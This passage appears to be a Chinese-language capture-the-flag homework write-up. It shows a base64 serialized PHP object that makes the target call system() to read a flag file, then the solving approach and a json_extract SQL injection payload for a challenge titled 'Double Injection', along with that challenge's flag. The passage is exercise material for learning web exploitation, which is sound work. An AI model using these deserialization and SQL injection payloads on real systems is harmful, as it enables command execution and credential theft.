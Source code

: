     ![](https://i.imgur.com/x5tCrhb.png)

3. Get flag
    ```bash!
    > $cat->spell = "cat /flag*"
    = "cat /flag*"
    
    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjI6e3M6NToibWFnaWMiO086NjoiQ2FzdGVyIjoxOntzOjk6ImNhc3RfZnVuYyI7czo2OiJzeXN0ZW0iO31zOjU6InNwZWxsIjtzOjEwOiJjYXQgL2ZsYWcqIjt9"
    ```
    ![](https://i.imgur.com/c5Kq7c4.png)

## HW-Double Injection - FLAG1
Flag: `FLAG{sqlite_js0n_inject!on}`

### 解題流程與思路
這一題超爆難，應該可以預見被splitline凌虐，先看Dockerfile寫了甚麼，安裝的前置作業結束以後，分別把FLAG1和FLAG2的內容丟到`/flag1.txt`,`/flag2-{random string}.txt`中，並且執行db的初始化，也就是把FLAG1當成admin的密碼，接著比較重要的一步是把存取db內容的file(`/etc/db.sqlite3`)的權限設定read-only，這個操作後續會說明重要的地方，最後就是執行app.js

* 目標:
    我們的目標是想辦法把FLAG1拿到手，但看了一圈app.js也沒有任何想法，雖然我知道username的地方有SQLinjection的洞，但重要的是如何把密碼送到前端給我們
* 一開始的想法:
    送出post request後，會進到login route，並且db會對送來的username / password進行query，此時會發現有兩個if statement，當時我在想，只要滿足第一個if statement，他就會return並且render出原本的username，所以如果我可以創一個新的table或是insert原本的users table，並且把username設定成FLAG1，然後password設定已知，這樣的話就一定會進到第二個if statement，如此就算我不知道FLAG1是多少，他也會把username吐回來到前端
    ```javascript
    if (row.password === password) {
        if (password !== FLAG1) {
            const html = ejs.render(`<h1>Success!</h1>`, { username });
            return res.send(html);
        } else {
            const html = ejs.render(template, { username });
            return res.send(html);
        } 
    } else {
        return res.status(401).send('Unauthorized');
    }
    ```
    但這個做法有兩個原因導致無法實踐
    1. 前面講過，splitline把`/etc/db.sqlite3`設定成read-only，所以我們無法對他做任何修改
    2. 就算這個file可以修改，因為ejs.render的關係，如果給定的1st參數沒有format可以填入(就像第二個if出現的template)，他並不會把username一起render進去，雖然我也不確定為甚麼要這樣寫
* 比較可行的方式
    1. 逛了好幾圈app.js都沒有任何可以把username吐回前端的地方，代表這個思路應該不是可行的方式，此時可以想想看time based或是boolean based 這種blind injection，可能是個不錯的方式，雖然我也有嘗試union based，不過效果不大
    2. 因為是完全沒有任何filter的sql injection，所以我就直接在local的sqlite db browser下語法順便debug，當payload如下時:
        ```sql
        admin.username") as a,
          json_extract(users, '$.admin.username') as b,
          json_extract(users, '$.admin.password') as c
        FROM db -- #
        ```
        * 在server端會變成
            ```sql
            "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password"
            ```
        * 完整的query會變成
            ```sql
            SELECT json_extract(users, "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password") AS password FROM db